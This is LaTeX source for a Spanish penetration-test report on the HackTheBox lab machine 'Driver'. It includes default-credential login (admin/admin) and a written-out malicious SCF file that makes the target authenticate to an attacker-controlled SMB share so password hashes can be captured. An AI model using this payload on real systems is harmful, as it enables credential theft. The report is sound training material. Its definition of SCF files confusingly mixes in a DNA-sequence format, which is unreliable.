\documentclass[a4paper]{article} % Formato de plantilla que vamos a utilizar, ya especificamos el tipo de papel

\usepackage[utf8]{inputenc} % Para poder utilizar caracteres especiales
\usepackage[spanish]{babel} % Para poder utilizar caracteres especiales en español
\usepackage[margin=2cm, top=2cm, includefoot]{geometry} % Para establecer los margenes del documento
\usepackage{graphicx} % Para la inserción de imagenes
\usepackage{xcolor} % Para la representación de colores
\usepackage{fancyhdr} % Define el estilo de la página
\usepackage[hidelinks, pdfpagelabels]{hyperref} % Gestión de hipervinculos
\usepackage{setspace} % Para que haya espacio entre lineas
\setstretch{1.2} % Agrega más espacio entre lineas
\usepackage{parskip} % Arregla la forma en la que se manejan los parrafos en el documento (quita espacio blanco entre parrafos)
\usepackage{float}

% Cambiando espacio entre parrafos
\setlength{\parskip}{0.8em plus 0.5em minus 0.2em} % Establece el espacio entre parrafos en 1em (un espacio de fuente), más 0.5em de espacio extra permitido, con una reducción máxima de 0.2em
\setlength{\parfillskip}{\parindent plus 1fill}

\setlength{\parindent}{0pt}
\usepackage[figurename=Imagen]{caption} % Para cambiar el nombre del caption donde pone 'Figura'
\usepackage{ragged2e} % Para jugar con \justifying para cuando hayamos terminado un \centering
\usepackage{listings} % Para la inseción de código

% Obtenido de tcolorbox overleaf
\usepackage{tikz,lipsum,lmodern} % Para la creación de cajas
\usepackage[most]{tcolorbox} % Para la incorporación de colores en la caja

\definecolor{codegreen}{rgb}{0,0.6,0}
\definecolor{codegray}{rgb}{0.5,0.5,0.5}
\definecolor{codepurple}{rgb}{0.58,0,0.82}
\definecolor{backcolour}{rgb}{0.95,0.95,0.92}

\newtcolorbox{definicion}{ % Para los cuadros de definicion
	breakable,
	enhanced,
	colback=white,
	colframe=bluePortada!75!black,
	arc=0mm,
	boxrule=1pt,
	leftrule=12mm,
	fonttitle=\bfseries,
	coltitle=blue!75!black,
	title=Definición,
	attach title to upper=\par,
}

\lstdefinestyle{mystyle}{
    backgroundcolor=\color{backcolour},
    commentstyle=\color{codegreen},
    keywordstyle=\color{magenta},
    numberstyle=\tiny\color{codegray},
    stringstyle=\color{codepurple},
    basicstyle=\ttfamily\footnotesize,
    breakatwhitespace=false,
    breaklines=true,
    captionpos=b,
    keepspaces=true,
    numbers=left,
    numbersep=5pt,
    showspaces=false,
    showstringspaces=false,
    showtabs=false,
    tabsize=2
}

\lstset{style=mystyle}
 
% Declaración de variables personalizadas
\newcommand{\logoPortada}{/home/berserkwings/Escritorio/webServer/BerserkWings.github.io/assets/images/masthead.png} % Comando que guarda una imagen y la representa en donde sea que la pongas
\newcommand{\machineName}{HackTheBox: Driver} % Comando con el nombre de la máquina
\newcommand{\logoMachine}{/home/berserkwings/Escritorio/webServer/BerserkWings.github.io/assets/images/htb-writeup-driver/driver_logo.png}
\newcommand{\startDate}{22 de Mayo del 2023} % Comando con la fecha
\newcommand{\logoHTB}{/home/berserkwings/Escritorio/webServer/BerserkWings.github.io/assets/images/htb_logo2.png}
\newcommand{\logoPropio}{imagenesReporte/logo_BW.png}
%\newcommand{\logoPropio}{/home/berserkwings/Escritorio/webServer/BerserkWings.github.io/assets/images/htb_logo.png}

% Definición de colores
\definecolor{bluePortada}{HTML}{146c8a} % color azul

% Adicionales
\addto\captionsspanish{\renewcommand{\contentsname}{Tabla de Contenidos}} % Cambiando el nombre de indice a tabla de contenidos
\setlength{\headheight}{40.2pt} % Cambiando el margen de separación de la barra

% Creando barra de separación, esta aparece arriba de la hoja
\pagestyle{fancy}
\fancyhf{}
\renewcommand{\headrulewidth}{3pt} % Para aumentar el tamaño de la barra
\renewcommand{\headrule}{\hbox to\headwidth{\color{bluePortada}\leaders\hrule height \headrulewidth\hfill}} % Cambiando colo de la barra
\renewcommand{\lstlistingname}{Código} % Para cambiar a 'Código' en el comando lstlisting

% Agregando logos a la izquierda y derecha
\lhead{\includegraphics[width=1.75cm, height=1.55cm]{\logoPropio}}\rhead{\includegraphics[height=1cm]{\logoHTB}}

% ------------------------------------------------------------------------- Portada
\begin{document} % Inicio del documento
        \begin{titlepage} % Inicio del titulo
                \centering % Para centrar todo
                \includegraphics[width=0.5\textwidth]{\logoPortada}\par\vspace{1cm}
                {\scshape\LARGE \textbf{Informe Técnico}\par\vspace{0.6cm}}
                {\Huge\textcolor{bluePortada}{\textbf{Máquina \machineName}}}
                \vfill
                \includegraphics[width=\textwidth]{\logoMachine}
                \begin{tcolorbox}[colback=red!5!white,colframe=red!75!black] % Insertando caja
                        \centering
                        Este documento es confidencial y contiene información sensible.\\No debe ser compartido con terceras entidades.
                \end{tcolorbox}

                \vfill
                {\large \startDate\par}
                \vfill
        \end{titlepage} % Fin del titulo

% ------------------------------------------------------------------------ Indice

        \clearpage
        \tableofcontents % Esto crea un indice, muestra la palabra indice (se cambio a Tabla de Contenidos)
        \clearpage

% ------------------------------------------------------------------------ Antecedentes

        \section{Antecedentes}
        El presente documento recoge los resultados obtenidos durante la fase realizada a la máquina \textbf{\machineName}, enumerando todos los vectores de ataque encontrados, así como la explotación realizada para cada uno de estos.

        Esta máquina ha sido testeada desde la plataforma de HackTheBox, una plataforma de entrenamiento y práctica para personas interesadas en la seguridad informática y en el hacking ético.

        Para acceder a esta máquina, necesita estar registrado en la plataforma HackTheBox en su sección de HTB Labs. Si es de su interes, a continuación, dejare el link para registrarse:

        \vspace{0.2cm}

        \begin{tcolorbox}[enhanced,attach boxed title to top center={yshift=-3mm,yshifttext=-1mm},
        colback=blue!5!white,colframe=blue!75!black,colbacktitle=red!80!black,
        title=Dirección URL,fonttitle=\bfseries,
        boxed title style={size=small,colframe=red!50!black} ]
        \centering
        \href{https://app.hackthebox.com/invite}{\textbf{\color{bluePortada}https://app.hackthebox.com/invite}}
        \end{tcolorbox}

        \vspace{0.5cm}

        \begin{figure}[h]
                \centering
                \setlength{\fboxrule}{0.8pt}
                \fbox{
\includegraphics[width=\textwidth]{/home/berserkwings/Escritorio/webServer/BerserkWings.github.io/assets/images/htb-writeup-driver/Captura1.png}}
                \caption{Página principal del servicio web de la máquina}
        \end{figure}

        \section{Objetivos}

        Los objetivos de la presente auditoría de seguridad se enfocan en la identificación de posibles vulnerabilidades y debilidades en la máquina \textbf{\color{bluePortada}\machineName}, con el propósito de garantizar la integridad y confidencialidad de la información almacenada en ella.

        Con este fin, se ha llevado a cabo un análisis exhaustivo de todos los servicios detectados que se encontraban expuestos en dicho servidor, recopilando información detallada sobre aquellos que representen un riesgo potencial desde el punto de vista de la seguridad.

        \clearpage
        \subsection{Alcance}

        A continuación, se representan los objetivos a cumplir para esta auditoría:

	\begin{itemize}
                \item Identificar los puertos y servicios vulnerables
                \item Realizar una exploración de las vulnerabilidades encontradas
                \item Conseguir acceso al servidor mediante la explotación de los servicios vulnerables identificados
                \item Enumerar vías potenciales de elevar privilegios en el sistema una vez este ha sido vulnerado
        \end{itemize}

        \subsection{Impedimentos y Limitaciones}

        Durante el proceso de auditoría, está terminantemente prohibido realizar alguna de las siguientes actividades

        \begin{itemize}
                \item Realizar tareas que puedan ocasionar una \textbf{denegación de servicio} o afectar a la disponibilidad de los servicios expuestos
                \item Borrar archivos residentes en el servidor una vez este haya sido vulnerado
        \end{itemize}

        \clearpage

% ------------------------------------------------------------------------ Reconocimiento

        \section{Reconocimiento}
        \subsection{Enumeración de Servicios Expuestos}

        A continuación, se adjunta una evidencia de los puertos y servicios identificados durante el reconocimiento aplicado con la herramienta \textbf{nmap}:

        \begin{figure}[h]
                \centering
                \setlength{\fboxrule}{0.8pt}
                \fbox{
\includegraphics[width=\textwidth]{imagenesReporte/Escaneo_NMAP.png}}
                \caption{Enumeración de Puertos con nmap}
        \end{figure}

        \vspace{0.5cm}

        En este caso, se identificaron 3 puertos activos corriendo por el protocolo TCP:

        \vspace{0.5cm}

        \centering
        \begin{tikzpicture}[node distance=2cm, every node/.style={rectangle, draw, fill=white}]
                \node (center) {TCP};
                \node (port1) [below left of=center, node distance=3cm] {Puero 80};
                \node (port2) [below of=center, node distance=3cm] {Puerto 135};
		\node (port3) [below right of=center, node distance=3cm] {Puerto 445};
                \draw (center) -- (port1);
                \draw (center) -- (port2);
		\draw (center) -- (port3);
        \end{tikzpicture}

        \vspace{0.5cm}

        \justifying % Para quitar el \centering

        Asimismo, no se encontraron puertos expuestos a través de otros protocolos, por lo que se priorizará la evaluación de los puertos identificados en el primer escaneo efectuado.

        \clearpage
        \subsection{Enumeración de Servidor Web}
	
	A continuación, se representa los resultados obtenidos con la herramienta \textbf{Wappalizer}, una herramienta de reconocimiento web que se utiliza para identificar tecnologías web específicas que se emplean en un sitio web, tras aplicar un reconocimiento sobre el servicio HTTP corriendo por el puerto 80:

	\begin{figure}[h]
                \centering
                \setlength{\fboxrule}{0.8pt}
                \fbox{
\includegraphics[width=\textwidth]{/home/berserkwings/Escritorio/webServer/BerserkWings.github.io/assets/images/htb-writeup-driver/Captura3.png}}
                \caption{Enumeración del Servicio HTTP por el puerto 80}
        \end{figure}

        En los resultados obtenidos, es posible identificar las versiones para algunas de las tecnologías existentes:

        \vspace{0.4cm}
        \centering
        \begin{tabular}{ c | c}
                \textbf{Tecnologías} & \textbf{Versión} \\
                \hline
		IIS & 10.0 \\
                PHP & 7.3.25
        \end{tabular}

        \vspace{0.4cm}

        \justifying

	Analizando el escaneo realizado para identificar los servicios en los puertos activos, el puerto 80 nos menciona que se debe ingresar la contraseña para el usuario \textbf{admin}.

	Se realizan 3 intentos de acceso, utilizando contraseñas por defecto, obteniendo acceso usando la contraseña \textbf{admin}. De esta forma, hemos obtenido las credenciales de acceso:

	\vspace{0.4cm}
        \centering
        \begin{tabular}{ c | c}
                \textbf{Usuario} & \textbf{Contraseña} \\
                \hline
                admin & admin \\
        \end{tabular}
        
	\clearpage

	\vspace{0.4cm}

	\justifying
	A continuación, se muestra la página resultante despues de acceder:

	\begin{figure}[h]
                \centering
                \setlength{\fboxrule}{0.8pt}
                \fbox{
\includegraphics[width=\textwidth]{/home/berserkwings/Escritorio/webServer/BerserkWings.github.io/assets/images/htb-writeup-driver/Captura4.png}}
                \caption{Accediendo al Servicio HTTP}
        \end{figure}

        \vspace{0.3cm}

	Enumerando el sitio web, se nos revela información importante:

	\begin{itemize}
		\item Se nos proporciona un correo de soporte técnico:
		\begin{center}
        	        \texttt{support@driver.htb}
        	\end{center}

		\item Se descubre un directorio que permite subir archivos, este nos muestra un mensaje:
                \begin{tcolorbox}[colback=green!5!white,colframe=green!75!black] % Insertando caja
                        \centering
                        Seleccione el modelo de impresora y cargue la actualización de firmware correspondiente a nuestro recurso compartido de archivos. Nuestro equipo de pruebas revisará las cargas manualmente e iniciará las pruebas>
                \end{tcolorbox}

		\begin{figure}[h]
                	\centering
                	\setlength{\fboxrule}{0.8pt}
                	\fbox{
\includegraphics[width=\textwidth, height=200pt]{/home/berserkwings/Escritorio/webServer/BerserkWings.github.io/assets/images/htb-writeup-driver/Captura6.png}}
        	        \caption{Directorio encontrado que permite subir archivos}
	        \end{figure}
	\end{itemize}

        \vspace{0.3cm}

	\clearpage

	\justifying
	Se realiza una investigación sobre el servicio \textbf{MFP Firmware Update Center} y se descubre que dicho servicio, acepta archivos \textbf{.scf}

	\begin{definicion}
		Los archivos SCF pertenecen principalmente a Windows de Microsoft. Un archivo SCF es un archivo que almacena información sobre la secuencia de ADN y que actúa de forma similar a un archivo ABI, pero contiene más información y es menos propenso a errores. También son utilizados por el símbolo del sistema operativo Windows como archivo de comandos Shell. En esta aplicación, el archivo SCF almacena comandos de shell, y es similar a los archivos BAT o CMD.
	\end{definicion}

	Investigando el sitio web, nos menciona a que impresoras es posible subir un \textbf{archivo SCF} para que se actualice su firmware:

	\begin{figure}[h]
		\centering
		\setlength{\fboxrule}{0.8pt}
		\fbox{
\includegraphics[width=\textwidth]{/home/berserkwings/Escritorio/webServer/BerserkWings.github.io/assets/images/htb-writeup-driver/Captura7.png}}
		\caption{Impresoras registradas en el sitio web}
	\end{figure}

	Existe una forma de utilizar esta clase de archivos para inyectar comandos, a esto se le llama \textbf{SCF Malicious File}. Este sera nuestro primer vector de ataque que probaremos contra el sitio web.

	\begin{definicion}
		Durante un test de intrusión, es posible encontrarse con un recurso de red de un servidor Windows con permisos de escritura para todos. A parte de intentar obtener información sensible, existe una forma para abusar de este recurso y poder obtener los hashes de las contraseñas de todos los usuarios que naveguen por esa carpeta compartida. Para ello, se utilizará un archivo SCF malicioso. Se trata de un Shell Command File, es decir, un archivo de comandos de Windows Explorer, que nosotros usaremos para enviar el archivo SCF malicioso. Se puede usar un archivo SCF para acceder a una ruta UNC específica que permite que el probador de penetración cree un ataque.
	\end{definicion}

	\clearpage

% ------------------------------------------------------------------------ Explotación

        \section{Identificación y Explotación de Vulnerabilidades}

	\subsection{Creando Archivo Malicioso SCF}

	La idea, es probar si el servicio SMB de la máquina víctima, nos responde a una petición de autenticación con un archivo malicioso .SCF que se enviara mediante el sitio web. Para saber si el resultado es exitoso, se montara un servidor SMB provicional, el cual recibira la respuesta que se obtenga del intento de autenticación.

	A continuación, se muestra el script creado para probar vulnerabilidades en el servicio \textbf{MFP Firmware Update Center}:

	\begin{lstlisting}{language=Shell, caption=Script Malicioso .SCF}{BitXorMatrix.m}
		[Shell]
		Command=2
		IconFile=\\192.15.X.X\smbFolder\pentestlab.ico
		[Taskbar]
		Command=ToggleDesktop
	\end{lstlisting}

	Se carga el archivo malicioso en el sitio web:
	\begin{figure}[h]
                \centering
                \setlength{\fboxrule}{0.8pt}
                \fbox{
\includegraphics[width=\textwidth]{/home/berserkwings/Escritorio/webServer/BerserkWings.github.io/assets/images/htb-writeup-driver/Captura8.png}}
                \caption{Se usa cualquier impresora}
        \end{figure}

	\clearpage

	\justifying

	E aquí el resultado obtenido:

	\begin{figure}[h]
                \centering
                \setlength{\fboxrule}{0.8pt}
                \fbox{
\includegraphics[width=\textwidth]{/home/berserkwings/Escritorio/webServer/BerserkWings.github.io/assets/images/htb-writeup-driver/Captura8.png}}
                \caption{Se usa cualquier impresora}
        \end{figure}

	\justifying

	Se obtuvo un usuario y un hash.

	

	De esta forma, queda demostrado que el servidor servidor web, es vulnerable a archivos malisiosos .SCF y el servidor SMB tambien resulto ser vulnerable al permitir la autenticación.



\end{document}
